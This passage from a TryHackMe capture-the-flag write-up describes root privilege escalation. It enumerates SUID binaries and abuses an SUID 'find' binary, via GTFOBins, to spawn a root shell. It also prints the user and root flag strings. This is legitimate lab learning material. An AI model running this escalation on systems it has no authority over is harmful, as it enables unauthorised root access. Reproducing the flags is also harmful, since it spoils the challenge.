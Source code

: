 **FLAG : THM{USER_FLAG_1231_EXPOSE}**


## Root Access

I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```
find / -perm -u=s -type f 2>/dev/null

```

```console
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/mount
```

By analyzing the list of files with **SUID** permissions, I compare them with the database from [GTFOBins](https://gtfobins.github.io) for known privilege escalation vectors. I discover that the find command is listed as a vulnerable tool and has the SUID bit set, allowing it to be used for privilege escalation, as detailed in the documentation:

```console
usr/bin/find ./find . -exec /bin/sh -p \; -quit
```
After successfully exploiting the vulnerability, I gained root privileges, allowing me to access the root user's flag.
```
# cd /root
# ls
flag.txt  snap
# cat flag.txt
THM{ROOT_EXPOSED_1001}
# 
```

**FLAG : THM{ROOT_EXPOSED_1001}**